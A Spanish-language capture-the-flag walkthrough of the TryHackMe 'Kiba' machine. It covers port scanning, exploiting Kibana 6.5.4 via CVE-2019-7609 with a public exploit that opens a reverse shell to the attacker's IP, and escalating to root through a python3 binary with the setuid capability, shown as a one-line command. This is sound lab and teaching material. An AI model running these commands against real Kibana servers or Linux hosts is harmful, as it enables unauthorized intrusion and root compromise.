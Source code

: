 # Kiba WriteUp
Volver al [Indice](README.md)

Bueno, hoy os traigo una de las últimas, sino la última máquina creada en THM, su nombre es Kiba, en ella explotaremos una vulnerabilidad algo diferente (almenos para mi) en una software de monitorización, gráficos, etc.  
Esá catalogada con un nivel de "Easy" aunque es bastante interesante esta máquina.

----------------------------------------------------------------------------------------------------------------------------------------------------------------------
## *# Enumeración*
Como siempre, vamos a realizar un escaneo de los puertos y los softwares y versiones de esto para var con lo que tratamos.

![nmap](images/kiba/nmap.png)

Vemos que tiene el puerto 80 abierto con un apache pero no vemos nada relevante ahí.  
En el puerto 5601 vemos el nombre del aplicativo (Kibana), así que accedemos vía web y nos lleva directamente al dashboard de este, echamos un ojo por encima y vemos una pestaña llamada "Dev Tools" en la que podemos insertar código, vamos a buscar su versión.

En esta pestaña, colocamos ' GET / ' para ver información del sistema y, como vemos, tiene la versión 6.5.4 instalada.

![versión](images/kiba/version.png)

Hacemos una búsqueda por Google y encontramos que esta versión es vulnerable a un ataque llamado "Prototype Pollution", dejo el enlace donde encontré la vulnerabilidad.  
[Kibana 6.5.4 Vulnerability](https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/#:~:text=The%20vulnerability%20was%20CVE%2D2019,Kibana%20versions%20before%205.6.&text=This%20could%20possibly%20lead%20to,process%20on%20the%20host%20system.)

Realizando diferentes pruebas con el Dashboard conseguí encontrar un exploit que automatiza directamente toda la explotación de esta vulnerabilidad y te dá acceso directamente al sistema, dejo el enlace de este también.  
[CVE-2019-7609](https://github.com/LandGrey/CVE-2019-7609)


## *# Explotación*
La sintáxis de este es muy sencilla.  
' python exploit.py -u "urlVíctima" -host "ipAtacante" -port "puertoEscucha" --shell '
* -u => Colocamos la URL del aplicativo "Kibana".
* -host => Colocamos la IP nuestra.
* -port => Colocamos el puerto que queremos poner en escucha.
* --shell => Para que nos saque una shell, si no lo ponemos solo nos diría si es o no vulnerable.

![exploit](images/kiba/exploit.png)

Y ya estaríamos dentro, podemos buscar la flag de user en su directorio habitual.

![userFlag](images/kiba/userFlag.png)


## *# Post-Explotación*
Como la misma sala nos dá una pista de por donde pueden ir los tiros para escalar privilegios vamos a listar recursivamente los "capabilities" (los capabilities es una capa de "seguridad" dentro del sistema, permite a los usuarios usar una aplicación como "root", pero solo ese proceso, no teniendo que ser root en algunos casos y no exponiendo el sistema completamente...claro está que también puede llegar a ser una vulnerabilidad bastante obvia...lo vamos a ver) del sistema a ver si sacamos algo.

![capabilities](images/kiba/getcap.png)

Dentro del directorio ".hackmeplease" (suena interesante ya de primeras, ¿no?) vemos que el binario de python3 tiene permisos de root y podemos ejecutarlo como vimos con los "capabilities", vamos a lanzarnos una shell a ver si conseguimos ROOT...  
' ./python3 -c 'import os; os.setuid(0); os.system("/bin/bash")' '

![rooFlag](images/kiba/rootFlag.png)

Y una vez más..¡Somos ROOT!

